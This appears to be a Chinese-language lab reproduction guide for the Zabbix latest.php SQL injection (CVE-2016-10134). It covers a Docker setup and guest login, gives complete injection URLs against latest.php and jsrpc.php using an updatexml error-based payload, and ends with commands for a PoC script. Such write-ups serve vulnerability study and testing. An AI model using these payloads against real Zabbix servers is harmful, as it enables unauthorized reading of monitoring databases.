


Zabbix latest.php SQL注入漏洞（CVE-2016-10134）¶
Zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。
在Zabbix版本2.2.14和3.0.4之前，latest.php文件存在SQL注入漏洞。该漏洞允许远程攻击者通过toggle_ids数组参数在latest.php中执行任意SQL命令。该漏洞也可以通过jsrpc.php利用，且无需任何用户身份。
参考链接：
- https://support.zabbix.com/browse/ZBX-11023
- https://www.exploit-db.com/exploits/40237
- https://www.exploit-db.com/exploits/40353
环境搭建¶
执行如下命令启动Zabbix 3.0.3:
docker compose up -d
执行命令后，将启动数据库（MySQL）、Zabbix server、Zabbix agent、Zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过docker compose ps查看容器状态，并通过docker compose start来重新启动容器。
漏洞复现¶
访问http://your-ip:8080，用账号guest（密码为空）登录游客账户。
登录后，查看Cookie中的zbx_sessionid，复制后16位字符：

将这16个字符作为sid的值，访问http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)，可见成功注入：

这个漏洞也可以通过jsrpc.php触发，且无需登录：http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)：

POC验证¶
调试中，我发现不用用户名和密码也可以在latest.php中进行SQL注入，实现细节见POC。
python3 CVE-2016-10134.py -t 127.0.0.1:8080
python3 CVE-2016-10134.py --target 127.0.0.1:8080